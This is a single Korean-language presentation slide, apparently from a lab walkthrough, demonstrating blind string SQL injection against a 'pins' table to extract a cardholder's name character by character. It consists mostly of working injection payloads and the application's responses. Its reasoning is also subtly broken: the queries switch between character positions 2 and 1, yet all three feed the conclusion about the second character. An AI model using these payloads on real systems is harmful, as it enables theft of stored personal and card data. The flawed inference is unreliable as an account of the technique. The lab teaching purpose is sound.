

Blind String SQL Injection

그 후 진행한 SQL 질의문
SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),2,1)>‘h';
Result : Account number is valid

SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘j';
Result : Invalid account number

SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘i';
Result : Invalid account number

따라서 범위는 h보다 뒤면서 i를 넘지 않는 값이므로, 두번째 자리 글자는 i라는것을 알 수 있다.